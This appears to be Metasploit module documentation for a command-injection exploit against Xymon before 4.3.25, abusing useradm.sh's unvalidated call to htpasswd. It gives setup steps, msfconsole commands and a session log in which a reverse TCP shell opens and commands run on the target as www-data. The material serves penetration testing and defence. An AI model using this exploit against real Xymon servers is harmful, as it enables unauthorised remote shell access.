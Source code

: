 ## Description

  This module exploits a command injection vulnerability in Xymon
  versions before 4.3.25 which allows authenticated users
  to execute arbitrary operating system commands as the web
  server user.

  When adding a new user to the system via the web interface with
  `useradm.sh`, the user's username and password are passed to
  `htpasswd` in a call to `system()` without validation.


## Vulnerable Software

  [Xymon](http://xymon.sourceforge.net/) is a system for monitoring servers and networks.

  This module has been tested successfully on:

  * Xymon version 4.3.10 on Debian 6.

  Xymon packages are available in software repositories for various Linux distributions :

  ```
  sudo apt-get install xymon
  ```

  Refer to http://xymon.sourceforge.net/xymon/help/install.html for more information.

  A Xymon virtual appliance is also available :

  * https://sourceforge.net/projects/xymon/files/Xymon/4.3.10/VM/

  To enable authentication via the web interace, add a user to `/etc/xymon/xymonpasswd` :

  ```
  htpasswd /etc/xymon/xymonpasswd <username>
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/xymon_useradm_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

  **TARGETURI**

  The base path to Xymon secure CGI directory (default: `/xymon-seccgi/`)

  **USERNAME**

  The username for Xymon

  **PASSWORD**

  The password for Xymon


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/xymon_useradm_cmd_exec 
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > set rhosts xymon.local
  rhosts => xymon.local
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > set username admin
  username => admin
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > set password password
  password => password
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > set verbose true
  verbose => true
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > check

  [*] 10.1.1.132:80 - Xymon version 4.3.10
  [*] 10.1.1.132:80 - The target appears to be vulnerable.
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > run

  [*] Started reverse TCP handler on 10.1.1.170:4444 
  [*] 10.1.1.132:80 - Xymon version 4.3.10
  [+] 10.1.1.132:80 - Payload sent successfully
  [*] Command shell session 1 opened (10.1.1.170:4444 -> 10.1.1.132:47682) at 2019-07-02 09:43:13 -0400

  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  pwd
  /usr/lib/xymon/cgi-secure
  ls
  ackinfo.sh
  acknowledge.sh
  criticaleditor.sh
  enadis.sh
  useradm.sh
  uname -a
  Linux xymon 2.6.32-5-686 #1 SMP Sun May 6 04:01:19 UTC 2012 i686 GNU/Linux
  ```

